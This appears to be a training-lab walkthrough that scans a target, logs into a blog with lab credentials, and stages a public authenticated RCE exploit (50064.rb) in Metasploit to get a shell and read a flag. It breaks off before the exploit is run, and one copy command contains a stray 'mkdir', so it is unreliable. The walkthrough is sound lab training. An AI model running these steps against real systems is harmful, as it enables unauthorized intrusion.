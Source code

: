 What distribution of Linux is running on Host-2? (Format: distro name, all lower case)


nmap -A 172.16.1.12 -p22,80
Results: Ubuntu

What language is the shell written in that gets uploaded when using the 50064.rb exploit?

Results: php

Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt


# Open firefox writting in the terminal
firefox

# Open the blog in scope http://blog.inlinefreight.local and click on login
# Enter the creds from the access-creds.txt file: admin:admin123!@#
# The new interface allows you to upload certain contents. Open Burpsuite and intercept communications. Also, observe the content of the site. There is a link to https://www.exploit-db.com/exploits/50064 about Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated) (Metasploit)
# Open a terminal on the Parrot:
searchsploit Lightweight
# You will see 
Lightweight facebook-styled blog 1.3 - Remote | php/webapps/50064.rb

# Print the path
searchsploit -m php/webapps/50064.rb

# Create the folders
sudo mkdir /usr/share/metasploit-framework/modules/exploits/php/
sudo mkdir /usr/share/metasploit-framework/modules/exploits/php/webapps/

# Copy the exploit
sudo cp 50064.rb mkdir /usr/share/metasploit-framework/modules/exploits/php/webapps/
